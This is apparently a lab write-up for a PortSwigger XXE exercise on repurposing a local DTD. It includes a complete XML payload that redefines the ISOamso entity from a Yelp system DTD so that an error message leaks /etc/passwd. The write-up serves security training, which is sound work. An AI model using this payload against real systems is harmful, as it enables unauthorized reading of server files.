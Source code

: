 # Exploiting XXE - to retrieve data by repurposing a local DTD

## 📌 Lab Details
- **Title**: Exploiting XXE to retrieve data by repurposing a local DTD
- **Difficulty**: Expert
- **Category**: XML external entity injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/9179f60d7eff1096e159e290d8f14facb04543ccc4380aec40de3f603dbd8364?referrer=%2fweb-security%2fxxe%2fblind%2flab-xxe-trigger-error-message-by-repurposing-local-dtd

## 🔍 Summary
This lab demonstrates how to **exploit XXE** vulnerabilities by **repurposing an existing local DTD** already present on the server. Instead of hosting your own DTD externally, you hijack an entity (like `ISOamso`) from a **known system DTD** (e.g., `/usr/share/yelp/dtd/docbookx.dtd`), and redefine it to extract sensitive files like `/etc/passwd`.

## 🛠 Steps to Solve
1. Intercept the "Check stock" **POST** request in Burp Suite.
2. Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:
   ```sh
   <!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```
3. This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.

## 📖 Key Takeaways
- XXE doesn't always need external DTDs — **local DTDs** already on the server can be leveraged.
- Useful for environments where **external network access is restricted**.
- Exploiting **parameter entities defined inside imported DTDs** is a powerful technique.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/1b18137a-a116-4e56-b5fb-e9e0cdec2e6a" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/8b8dc46f-e93e-45ad-aa4a-80b1f447db7e" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e0c1591c-8bc7-450a-b13e-51cede00aa20" />
